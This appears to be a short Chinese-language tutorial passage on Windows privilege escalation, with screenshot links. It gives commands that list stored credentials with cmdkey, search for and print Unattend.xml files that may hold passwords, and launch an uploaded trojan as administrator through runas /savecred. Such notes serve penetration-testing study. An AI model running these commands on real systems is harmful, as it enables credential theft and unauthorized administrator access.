 ![image-20241015201513596](操作系统提权/image-20241015201513596.png)	

```
首先使用cs控制该普通用户。
然后收集电脑上的信息和相关配置文件，从而获得敏感数据，比如账号或者密码等等。
比如查看本地是否有凭据。
shell cmdkey /list
然后查看敏感配置文件Unattend.xml
dir /a /s /b C:\Unattend.xml
```

![image-20241015201738382](操作系统提权/image-20241015201738382.png)	

![image-20241015201836433](操作系统提权/image-20241015201836433.png)	

```
将木马上传好，于是利用凭证获得管理员权限。
runas /savecred /user:administrator shell.exe
```

![image-20241015202213521](操作系统提权/image-20241015202213521.png)	

```
查看敏感配置文件是否有账号密码。可以查找到一些用户的账户和密码，但是这里的密码访问不到，但有的主机上密码是被加密，是可以经过base64解密等方式得出密码。
shell type C:\Windows\Panther\unattend.xml
```

![image-20241015202332237](操作系统提权/image-20241015202332237.png)	
